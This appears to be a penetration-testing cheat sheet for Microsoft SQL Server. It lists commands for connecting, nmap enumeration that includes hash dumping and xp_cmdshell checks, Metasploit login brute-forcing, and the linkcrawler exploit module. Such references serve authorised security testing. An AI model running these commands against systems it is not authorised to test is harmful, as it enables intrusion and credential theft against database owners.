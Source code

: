 # msssql

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/ldap  #port/1433 

## mssql - connect
#cat/ATTACK/CONNECT 
```
sqsh -S <ip> -U <user>
```

## mssql - enum
#cat/RECON
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
```

## mssql - enum sql login
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use admin/mssql/mssql_enum_sql_logins; set RHOSTS <rhost>; set USER_FILE <users.txt>; set PASS_FILE <passwords.txt>; run"
```

## mssql - enum configuration setting (xp-cmdshell)
#cat/RECON 
```
msfconsole -x "use auxiliary/admin/mssql/mssql_enum; set RHOST <ip>; set password <password>; run"
```

## mssql link crawler
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/windows/mssql/mssql_linkcrawler"
```

